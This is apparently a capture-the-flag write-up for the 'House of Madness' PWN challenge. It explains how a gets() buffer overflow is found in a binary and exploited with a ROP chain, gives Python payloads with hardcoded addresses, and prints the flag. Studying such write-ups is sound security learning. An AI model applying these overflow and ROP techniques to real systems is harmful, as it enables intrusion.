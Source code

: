# House of Madness

* **Category:** PWN
* **Points:** 897

## Challenge

> Welcome to the House of Madness. Can you pwn your way to the keys to get the relic?
> Note: ASLR is disabled for this challenge
> [Download]("./challenge")

## Solution

To preface, this solve was after the challenge environment was fixed with ASLR being disabled. A solve while ASLR was enabled was possible.

While messing around with the binary at first we are met with a direction to enter 'Stephen' in room 4.

![]('./img/programRun.png')

Upon further analysis with Ghidra, we see that in room 4, we unlock access to a hidden room by entering 'Stephen' that includes an unsanitized gets that would overflow 'local_1c'

![]('./img/room4.png')

Ok, cool! Overwrite buffer, overwrite eip, call get_flag(), capture the...

![]('./img/tryAgain.png)

>:(

Alright step it back. Taking a look at get_flag() we see checks for 4 keys that are initialized by 4 other functions: 'get_key1', 'get_key2','AAsDrwEk','set_key4'
While reversing the functions, it is important to note that 'get_key2' will not initialize 'key 2' if 'key 1' is already initialized. In addition we see that 'get_key1' takes an argument and compares it to 0xfeedc0de.
The obscure function 'AAsDrwEk' sets 'key 3' without any preconditions. Finally, 'set_key4' initializes 'key4' once the previous keys have been set. 
Ok, cool. Game plan is:

![]('./img/gameplan.png')

```python
get_flag = 0x5655686b
get_key1 = 0x565566de
get_key2 = 0x5655676e
get_key3 = 0x565567cd
get_key4 = 0x565567e9
arg = p32(0xfeedc0de)

padding = "A"*28 #Overflow buffer and overwrite saved eip
payload = padding + p32(get_key3) + p32(get_key2) + p32(get_key1) + p32(get_key4) + arg + p32(get_flag)   
```
Yay now I can finally get some sle-

![]('./img/take1.png')

>:(
Some quick debugging shows that when get_key4 returns, esp is pointing to get_key1's argument and points eip to 0xfeedc0de.

![]('./img/feedcode.png')

![]('./img/gdb.png')

To understand what needs to be accomplished, it is pivotal to understand what the ret instruction does. ret will take the value at esp's address and pop it into eip and then increment esp.
Therefore, in order to have 'get_key1' to ret into 'get_flag' which is at 'esp + 0x4' on the stack, I need to somehow increment esp. Something to simply move 'get_flag' to the top of the stack...
Oh yeah! A ROP gadget to pop off '0xfeedcode' off the stack and then ret into 'get_flag'!
Using ```ROPgadget --binary ./houseof | grep pop```, we find a single 'pop ebx; ret' instruction which does exactly that!
Now just add that to the exploit and claim the flag to satisfy your lack of sleep.
```python
get_flag = 0x5655686b
get_key1 = 0x565566de
get_key2 = 0x5655676e
get_key3 = 0x565567cd
get_key4 = 0x565567e9
arg = p32(0xfeedc0de)
pop_ret = p32(0x5655601e)

payload= "B"*28 + p32(get_key3) + p32(get_key2) + p32(get_key1) + pop_ret + arg + p32(get_key4) + p32(get_flag)
```
![]('./img/ineedsleep.png')

```
auctf{gu3ss_th3_h0us3_1sn't_th4t_m4d}
```
